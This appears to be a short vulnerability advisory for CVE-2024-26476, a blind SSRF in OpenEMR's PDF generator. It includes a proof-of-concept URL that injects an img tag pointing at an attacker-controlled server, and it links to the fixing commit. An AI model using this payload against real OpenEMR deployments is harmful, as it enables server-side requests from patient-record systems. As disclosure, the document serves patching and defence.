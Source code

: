 #  CVE-2024-26476 - OpenEMR Blind SSRF via HTML Injection in PDF Generator (mPDF)

Basically there is no input sanitization in the PDF content that is generated in interface/procedure_tools/labcorp/ereq_form.php.
For example we can use the $form_id variable (line 20) to inject an img tag with the src attribute that points to a server we control.

Vulnerable: version < 7.0.2

```
http://10.211.55.9/openemr/interface/procedure_tools/labcorp/ereq_form.php?debug=true&formid=<img src="http://10.37.129.2">
```

![image](https://github.com/c4v4r0n/Research/assets/57950943/adae8062-13d5-4f24-ab4d-8aea64e211aa)

Reported by Vinicius Silva on 02/13/2024

Fixed in: 02/14/2024 - https://github.com/openemr/openemr/commit/846301aaa798839025cfb3cf3d58dbfda1e4e5ba

